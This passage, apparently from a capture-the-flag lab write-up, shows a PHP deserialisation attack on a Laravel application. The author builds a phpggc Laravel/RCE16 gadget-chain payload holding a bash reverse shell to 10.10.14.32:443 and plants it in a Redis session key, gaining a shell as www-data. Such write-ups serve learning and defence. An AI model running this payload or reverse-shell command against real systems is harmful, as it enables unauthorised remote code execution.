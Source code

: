{% code overflow="wrap" %}
```
$ python3 dec.py
b'25c6a7ecd50b519b7758877cdc95726f29500d4c|uVlrclU6uti6bHeLM5qBhACuOsqEL0f1GASURNgH\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f'
```
{% endcode %}

This gives the `laravel_session` cookie ID. Using this, we can attempt to set this to a PHP serialised object to get RCE since the `cybermonday_session` uses this value since we can manipulate the cookie value.

{% embed url="https://github.com/ambionics/phpggc" %}

After some testing, I found that `Laravel/RCE16` is the correct gadget chain to use:

{% code overflow="wrap" %}
```
$ ./phpggc -f -a Laravel/RCE16 system 'bash -c "bash -i >& /dev/tcp/10.10.14.32/443 0>&1 2<&1"'
a:2:{i:7;O:35:"Monolog\Handler\RotatingFileHandler":4:{S:13:"\00*\00mustRotate";b:1;S:11:"\00*\00filename";S:8:"anything";S:17:"\00*\00filenameFormat";O:38:"Illuminate\Validation\Rules\RequiredIf":1:{S:9:"condition";a:2:{i:0;O:28:"Illuminate\Auth\RequestGuard":3:{S:11:"\00*\00callback";S:14:"call_user_func";S:10:"\00*\00request";S:6:"system";S:11:"\00*\00provider";S:55:"bash -c "bash -i >& /dev/tcp/10.10.14.32/443 0>&1 2<&1"";}i:1;S:4:"user";}}S:13:"\00*\00dateFormat";S:1:"l";}i:7;i:7;}
```
{% endcode %}

Afterwards, I set the value of the cookie to my payload:

{% code overflow="wrap" %}
```
127.0.0.1:6379> set 'laravel_session:uVlrclU6uti6bHeLM5qBhACuOsqEL0f1GASURNgH' 'a:2:{i:7;O:35:"Monolog\Handler\RotatingFileHandler":4:{S:13:"\00*\00mustRotate";b:1;S:11:"\00*\00filename";S:8:"anything";S:17:"\00*\00filenameFormat";O:38:"Illuminate\Validation\Rules\RequiredIf":1:{S:9:"condition";a:2:{i:0;O:28:"Illuminate\Auth\RequestGuard":3:{S:11:"\00*\00callback";S:14:"call_user_func";S:10:"\00*\00request";S:6:"system";S:11:"\00*\00provider";S:55:"bash -c "bash -i >& /dev/tcp/10.10.14.32/443 0>&1 2<&1"";}i:1;S:4:"user";}}S:13:"\00*\00dateFormat";S:1:"l";}i:7;i:7;}'
```
{% endcode %}

Upon refreshing the page, I got a shell as `www-data`:

<figure><img src="../../.gitbook/assets/image (4205).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation 1
